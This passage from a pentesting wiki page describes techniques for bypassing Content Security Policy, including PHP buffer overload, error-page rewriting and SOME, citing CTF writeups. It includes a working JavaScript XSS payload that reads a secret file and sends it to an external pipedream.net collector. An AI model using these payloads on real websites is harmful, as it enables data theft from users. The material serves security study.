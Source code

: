 By monitoring which requests are blocked or allowed by the CSP, one can narrow down the possible characters in the secret subdomain, eventually uncovering the full URL.

Both methods exploit the nuances of CSP implementation and behavior in browsers, demonstrating how seemingly secure policies can inadvertently leak sensitive information.

Trick from [**here**](https://ctftime.org/writeup/29310).

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Unsafe Technologies to Bypass CSP

### PHP response buffer overload

PHP is known for **buffering the response to 4096** bytes by default. Therefore, if PHP is showing a warning, by providing **enough data inside warnings**, the **response** will be **sent** **before** the **CSP header**, causing the header to be ignored.\
Then, the technique consists basically in **filling the response buffer with warnings** so the CSP header isn't sent.

Idea from [**this writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Rewrite Error Page

From [**this writeup**](https://blog.ssrf.kr/69) it looks like it was possible to bypass a CSP protection by loading an error page (potentially without CSP) and rewriting its content.

```javascript
a = window.open('/' + 'x'.repeat(4100));
setTimeout(function() {
    a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`;
}, 1000);
```

### SOME + 'self' + wordpress

SOME is a technique that abuses an XSS (or highly limited XSS) **in an endpoint of a page** to **abuse** **other endpoints of the same origin.** This is done by loading the vulnerable endpoint from an attacker page and then refreshing the attacker page to the real endpoint in the same origin you want to abuse. This way the **vulnerable endpoint** can use the **`opener`** object in the **payload** to **access the DOM** of the **real endpoint to abuse**. For more information check:
